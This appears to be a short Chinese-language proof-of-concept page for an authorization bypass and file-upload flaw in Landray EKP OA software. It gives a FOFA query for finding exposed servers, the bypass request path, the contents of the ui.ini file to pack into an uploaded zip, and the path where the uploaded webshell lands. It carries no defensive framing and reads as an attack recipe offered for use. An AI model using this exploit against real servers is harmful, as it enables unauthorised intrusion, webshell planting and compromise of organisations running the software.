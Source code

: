 
## 蓝凌EKP前台授权绕过导致文件上传


## fofa
```
app="Landray-OA系统"
```

访问路径/api///sys/ui/sys_ui_extend/sysUiExtend.do?method=upload其中路径需要api后面需要///不能变。

## poc
```
/api///sys/ui/sys_ui_extend/sysUiExtend.do?method=upload

```
![image](https://github.com/wy876/POC/assets/139549762/47bd374a-d072-46ab-824e-e23ef8d08a69)


## 文件上传
然后上传zip包需要有ui.ini文件内容如下
```
id=ZzzZname=testthumb=test

```
![image](https://github.com/wy876/POC/assets/139549762/1d6615f9-a98b-4747-a6a8-9e6bdd3218c0)

![image](https://github.com/wy876/POC/assets/139549762/1cb1a160-309f-44bb-b0d3-03e59b163258)

马会在/resource/ui-ext/ZzzZ/jmdyy.jsp
